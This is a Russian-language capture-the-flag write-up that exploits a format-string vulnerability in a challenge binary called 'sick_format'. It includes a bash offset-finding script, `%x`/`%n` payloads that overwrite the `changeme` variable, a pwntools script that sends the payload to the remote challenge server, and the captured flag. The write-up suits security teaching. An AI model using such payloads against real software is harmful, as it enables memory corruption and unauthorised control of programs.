 # sick format writeup

Нам дан код на C и скомпилированный ELF-файл. Изучив код можно понять, что уязвимость заложена в функцию printf(), она связана с форматированием строки. Простыми словами, будем передавать ей аргументы, которых нет - таким образом программа будет вычитывать стэк.

###  Ищем пэйлоад

Будем передавать строку нашей программе таким образом `python -c "print 'AAAA' + '%x.'*OFFSET + '%x'" | ./sick_format` постоянно меняя OFFSET. Чтобы не делать это руками - напишем простой скрипт на bash:

```bash
offset_finder.sh

#!/bin/bash

for ((test=0; test<=30; test++)); do
    output=$(python -c "print 'AAAA' + '%x.'*$test + '%x'" | ./sick_format | grep "41414141")
    if [ -n "$output" ]; then
        echo "Найдена строка '41414141' для теста $test"
	echo "$output"
    fi
done
```

Теперь узнаем адрес нашей переменной `changeme`, которую нужно поменять для получения флага, а именно сделать ее равной 69.
```bash
gdb: print &changeme
```

В консоли отправляем следующий пэйлоад, в котором уже указан адрес нужной переменной:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*6 + '%n'" | ./sick_format`

Рядом со строкой `No way...` появилось число, этло значение changeme. 

Теперь считаем, сколько нужно добавить до 69 и модифицируем пэйлоад:

`python -c "print '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%28d' + '%n'" | ./sick_format`

Отлично, все работает, теперь сделаем то же самое на сервере, где запущен настоящий файл.

Пишем скрипт:

```python
from pwn import *

conn = remote('IP', PORT)

payload = '\x08\x04\xa0\x4c'[::-1] + '%x.'*5 + '%28d' + '%n'

conn.sendline(payload)
print(conn.recv()) 
print(conn.recv())
```

Запускаем и получаем флаг **kxctf{f0rm4t1ng_str1ng_1s_aw3s0me_bruh_1m_pr0ud_0f_u_ma_b0y_<3}**


